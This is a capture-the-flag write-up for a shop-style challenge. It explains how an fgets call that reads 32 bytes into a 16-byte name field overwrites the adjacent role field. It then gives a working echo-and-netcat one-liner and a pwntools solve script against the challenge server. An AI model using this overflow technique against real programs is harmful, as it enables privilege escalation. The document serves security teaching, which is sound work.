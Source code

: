# Writeup

## Solution

We can see that we need to buy and then use the item "Flag" to win.
However, the flag has `amount_left` set to 0, therefore we need to refill
that item before being able to buy it again. But we can't to that, since
our role is not set to "Manager", it is "Customer".

We can do that, because there is a buffer overflow in reading the customers name.

The User struct is capable of holding 16 bytes for the `user.name` field.
However, the program reads up to 32 bytes into the `user.name` field.
Thefore, the program reads in the remaining 16 bytes into the memory directly
following the `user.name` buffer, causing a **buffer overflow**.

```c
struct User {
  char name[16];
  char role[16];
  struct Item *inventory[INV_SIZE]; // Array to hold pointers to bought items
};

// [...]
puts("Whats your name?");
printf("> ");
fgets(user.name, 32, stdin);
```

Since memory in a struct is laid out in memory exactly as it is declared in the struct,
the `user.role` buffer will reside directly after the `user.name`.
This means, that we can overwrite the `user.role` field with the buffer overflow.

One last thing which we might stumble upon, is that a trivial buffer overflow which we are
performing by simply typing 16 times A followed by "Manager" into our keyboard, will fail.

We can debug that with the fourth option `4. Show my role` which prints the role while
escaping special characters. Using that we might discover that our actual role is `Manager\n` since
the function `fgets`, which read our input, consumed the newline from hitting "Enter" on our keyboard.

This and more information about `fgets` can be found in the so-called "Manual Pages" (short: Man page) of
the library function. In Linux distributions, they usually can be accessed using `man fgets` in a shell.
Otherwise you can look them up on the internet.

Lets cover the basics on what a string in a C program even is. A string is nothing more than
a sequence of bytes which end on a null byte, whereas the null byte is simply the byte with value 0.
Therefore, we say "Strings are null-terminated in C".

To sucessfully perform the buffer overflow, we can provide the string terminating null byte ourselves.
This can be done using a python script or by using a commandline program such as `echo`.

## Solve Script

### Using commandline tool `echo`:

```shell
(echo -e "AAAAAAAAAAAAAAAAManager\x00\n" ; cat) | nc challenges.sshuzl.de 12379
```

`-e` instructs bash to enable backslash escaping, allowing us to use special characters as newline "\n" or the null byte "\x00".

Appending `; cat` forces the shell to continue reading bytes from the terminal and sends them to netcat.
This keeps the connection open, enabling us to enter more bytes.

### Python solve script

```python
import pwn

def refill_flag():
    # refill items
    io.sendline(b"3")
    # refill flag
    io.sendline(b"3")

def buy_flag():
    # buy item
    io.sendline(b"1")
    # buy flag
    io.sendline(b"3")

def use_flag():
    # use item
    io.sendline(b"2")
    # use first item in inventory, this is the flag
    io.sendline(b"0")

io = pwn.remote("challenges.sshuzl.de", 12379)
# io = pwn.process("./grocery_store")

### Exploit

# 16 bytes padding, then overwrite `user.role` field.
# Note that we manually null terminate the buffer
# since otherwise `fgets` would've read the newline.
io.sendline(b"A" * 16 + b"Manager\x00")

refill_flag()

buy_flag()

use_flag()

# leave connection open
io.interactive()
```
